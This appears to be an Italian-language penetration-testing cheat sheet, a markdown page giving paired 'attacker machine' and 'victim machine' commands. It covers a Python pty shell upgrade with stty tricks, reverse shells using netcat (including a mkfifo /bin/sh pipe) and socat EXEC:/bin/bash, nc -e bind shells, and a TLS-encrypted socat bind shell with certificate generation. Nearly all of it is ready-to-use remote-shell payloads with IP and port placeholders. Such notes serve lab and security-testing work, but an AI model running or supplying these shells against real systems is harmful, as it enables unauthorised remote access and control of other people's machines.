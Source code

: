 # Upgrade Shell
Macchina Vittima
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Macchina Attaccante (segnare il numero di righe e colonne)
```bash
stty -a 
```
Macchina Vittima (sostituire il numero di righe e colonne con quelle segnate)
```bash
export TERM=xterm-256color
stty rows 38 columns 169
^Z
```
**RICORDA** ^Z = (Ctrl + Z)
Macchina Attaccante 
```bash
stty -raw echo; fg
```
-------------------------
# Reverse-shell
## nc
### Macchina attaccate
```bash
nc -lvnp <PORT>
```
### Macchina vittima
```bash
nc <MIO_IP> <PORT>
```
#### Reverse shell per OpenBSD netcat
Reverse shell per ambienti con netcat compilati senza il flag *-DGAPING_SECURITY_HOLE* (OpenBSD version)
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <MIO_IP> <PORT> >/tmp/f
```
## socat
Macchina  attaccante
```bash
socat -d TCP4-LISTEN:<PORT> STDOUT
```
Macchina vittima 
```bash
socat TCP4:<MIO_IP>:<PORT> EXEC:/bin/bash
```
-------------------------
# Bind shell 
Macchina vittima
```bash
nc -lvnp 4242 -e /bin/bash
```
Macchina attaccante
```bash
nc <IP VITTIMA> <PORT>
```
### Encrypted Bind Shell
Inizialmente si ha la necessita di creare il certificato e la chiave privata per la creazione del canale cifrato 
```bash
#Generazione della chiave e del certificato
openssl req -x509 -newkey rsa:2048 -nodes -keyout rootCAKey.key -days 365 -out rootCACert.pem
#Combinare il certificato e la chiave per darlo in input a socat
cat rootCACert.pem rootCAKey.pem > shell.pem
```
Macchina  vittima
```bash
socat OPENSSL-LISTEN:<PORTA>,cert=shell.pem,verify=0,fork EXEC:/bin/bash
```
Macchina attaccante 
```bash
socat OPENSSL:<IP>:<PORTA>,verify=0
```
